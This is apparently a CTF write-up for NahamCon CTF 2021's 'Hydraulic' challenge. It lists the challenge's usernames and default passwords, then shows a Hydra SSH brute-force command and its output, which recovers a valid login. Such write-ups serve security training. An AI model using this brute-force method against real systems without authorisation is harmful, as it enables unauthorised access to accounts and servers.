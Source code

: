 ```yaml
---
layout: post
title:  "Hydraulic"
date:   2021-03-15 00:42:00 -0400
category: [writeups]
challenge-source: [NahamCon CTF 2021]
challenge-category: ['mission']
tags: [NahamConCTF2021]
author: shinris3n
---
```

<h1></h1>
<h3><font color=FF3030>Challenge Text</font></h3>

```
Author: @JohnHammond#6971

This is Stage 2 of Path 5 in The Mission. After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.

Gain access with the information you have gathered thus far and retrieve the flag.

You may bruteforce this challenge... hence the name ;)

Press the Start button on the top-right to begin this challenge.
``` 

<h1></h1>
<h3><font color=FF3030>Solution</font></h3>

- Once finding new website directory structure via Lyra's Twitter page and poking around a bit, we find http://constellations.page/constellations-documents/5/ with lists of user names and default passwords:

```
CONSTELLATIONS Default Account Passwords
INTERNAL: this should not be shared outside of the org
Personnel Names

User accounts following the naming convention of lowercase firstname.

    orion
    pavo
    gus
    vela
    hercules
    leo
    lyra
    gemini 

Default Passwords

    starstar
    allstars
    starstruck
    starshine
    starsky
    popstars
    starship
    bluestars
    pinkstars
    superstars
    ilovestars
    rockstars
    thestars
    starscream
    gostars
    shootingstars
    northstars
    alpinestars
    starsign
    moonandstars
    starsrock
    luckystars
    iluvstars
    fivestars
    redstars
    mystars
    lovestars
    dallasstars
    moonstars
    sunmoonstars
    starsailor
    silverstars
    sevenstars
    lilstars
    dotaallstars
    sunstars
    starsun
    starsstars
    starsareblind
    pokerstars
    magicstars
    divastars
    blackstars
    starstarstar
    starsearch
    luvstars
    greenstars
    deathstars
    brightstars
    twinstars
    starsinthesky
    starshooter
    starsha
    threestars
    summerstars
    starspirit
    starshollow
    starsandstripes
    starsandmoons
    nightstars
    metrostars
    icstars
    hoodstars
    deadstars
    citystars
``` 

- We can copy/paste these lists into separate files, then feed them into Hydra:

{% highlight bash %}
$ hydra -s 32369 -L users -P ./passwords challenge.nahamcon.com -t 4 ssh 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-13 11:13:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 520 login tries (l:8/p:65), ~130 tries per task
[DATA] attacking ssh://challenge.nahamcon.com:32369/
[STATUS] 36.00 tries/min, 36 tries in 00:01h, 484 to do in 00:14h, 4 active
[STATUS] 29.67 tries/min, 89 tries in 00:03h, 431 to do in 00:15h, 4 active
[32369][ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky                                                                     
[STATUS] 31.00 tries/min, 217 tries in 00:07h, 303 to do in 00:10h, 4 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-13 11:21:48

{% endhighlight %}

- After this, it's just a matter of loading the instance, logging in with these credentials via SSH and grabbing the flag in the user's home directory.